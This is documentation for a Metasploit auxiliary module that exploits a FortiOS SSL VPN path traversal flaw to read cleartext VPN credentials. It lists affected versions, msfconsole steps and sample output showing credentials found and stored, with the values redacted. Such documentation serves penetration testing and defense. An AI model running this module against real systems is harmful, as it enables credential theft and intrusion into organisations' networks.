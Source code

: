FortiOS system file leak through SSL VPN via specially crafted HTTP resource requests.

A path traversal vulnerability in the FortiOS SSL VPN web portal may allow an unauthenticated
attacker to download FortiOS system files through specially crafted HTTP resource requests.

## Vulnerable Application

This module reads logins and passwords in clear text from the `/dev/cmdb/sslvpn_websession` file.
This vulnerability affects (FortiOS 5.4.6 to 5.4.12, FortiOS 5.6.3 to 5.6.7 and FortiOS 6.0.0 to 6.0.4).

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

Store credential into the Metasploit database.

## Scenarios

### Usages

You can scan and get all credentials on the remote target when you run the following command:

```
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > options

Module options (auxiliary/scanner/http/fortios_vpnssl_traversal_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       XXX.XX.XXX.X     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   TARGETURI    /remote          yes       Base path
   THREADS      16               yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] https://XXX.XX.XXX.X:10443 - Trying to connect.
[+] https://XXX.XX.XXX.X:10443 - Vulnerable!
[+] https://XXX.XX.XXX.X:10443 - File saved to /home/mekhalleh/.msf4/loot/20201216194020_default_XXX.XX.XXX.X__667507.txt
[+] https://XXX.XX.XXX.X:10443 - 1 credential(s) found!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > creds
Credentials
===========

host          origin        service            public  private  realm  private_type  JtR Format
----          ------        -------            ------  -------  -----  ------------  ----------
XXX.XX.XXX.X  XXX.XX.XXX.X  10443/tcp (https)  redacted  redacted          Password      

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```
